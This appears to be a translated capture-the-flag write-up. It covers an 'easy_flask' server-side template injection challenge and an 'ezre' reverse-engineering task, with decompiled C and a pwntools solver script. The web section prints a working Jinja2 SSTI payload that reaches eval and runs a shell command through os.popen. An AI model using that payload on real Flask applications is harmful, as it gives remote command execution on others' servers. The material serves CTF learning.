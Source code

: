 ## WEB

### easy_flask

Use ```{{7*7}}``` to test and find SSTI

This question does not have any filtering, just use it directly

```
{{().__class__.__base__.__subclasses__()[216].__init__.__globals__.__builtins__['eval']('__import__("os").popen("cat flag").read()')}}
```

## Reverse

### ezre

Some key logic:

```C
unsigned __int64 main_program()
{
unsigned int seed[2]; // [rsp+20h] [rbp-80h] BYREF
__int64 v2; // [rsp+28h] [rbp-78h]
char s[48]; // [rsp+30h] [rbp-70h] BYREF
_BYTE s1[56]; // [rsp+60h] [rbp-40h] BYREF unsigned __int64 v5; // [rsp+98h] [rbp-8h] v5 = __readfsqword(0x28u); *(_QWORD *)seed = 0LL; v2 = 0LL; custom_md5_init(seed); srand(seed[0]); printf("Enter input: "); fgets(s, 43, stdin); if ( strlen(s) == 42 ) { memset(s1, 0, 0x2BuLL); xor_string_with_rand(s, s1); if ( !memcmp(s1, &ida_chars, 0x2BuLL) ) puts("right"); else puts("wrong"); } else { puts("Invalid input length."); } return v5 - __readfsqword(0x28u); } void __fastcall xor_string_with_rand(__int64 a1, __int64 a2) { int i; // [rsp+18h] [rbp-8h] for ( i = 0; i <= 41; ++i ) *(_BYTE *)(i + a2) = (rand() % 127) ^ *(_BYTE *)(i + a1);
}
```

Analysis:

The random seed is set in advance, so the random number generated each time is fixed
I am too lazy to analyze the process of initializing the seed, but you can use dynamic debugging to obtain the initialized seed
The XOR is used for encryption, so the original text can be obtained by XORing again
The handwritten decryption script is garbled, I don’t understand it, so I directly use the original program to decrypt

Specific ideas:

Use IDA to extract the ciphertext, use the script to pass the ciphertext (including unprintable characters) into the program, and dynamically debug to obtain the ciphertext of the program XORing (decryption) again

```python
from pwn import *

li = lambda x : print('\x1b[01;38;5;214m' + str(x) + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m'+ str(x) + '\x1b[0m')

# Config
LOCAL = True
file = './ezre' remote_addr = 'localhost' remote_port = 65535 context.log_level='DEBUG' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARNING'] elf = ELF(file) context.binary = elf rop = ROP(elf) def dbg(p : process): if LOCAL: gdb.attach(p, 'x-pwn') def get_Process(): if LOCAL: p = process(file) else: p = remote(remote_addr,remote_port) return p def exp(): p = get_Process() # Real Start of EXP dbg(p) data = b"\x5C\x76\x4A\x78\x15\x62\x05\x7C\x6B\x21\x40\x66\x5B\x1A\x48\x7A\x1E\x46\x7F\x28\ x02\x75\x68\x2A\x34\x0C\x4B\x1D\x3D\x2E\x6B\x7A\x17\x45\x07\x75\x47\x27\x39\x78\x61" p.sendline(data)
 p.interactive() flag = p.recvline_startswith(b'flag').decode()
 li("[+] Got Flag!") print(flag)
```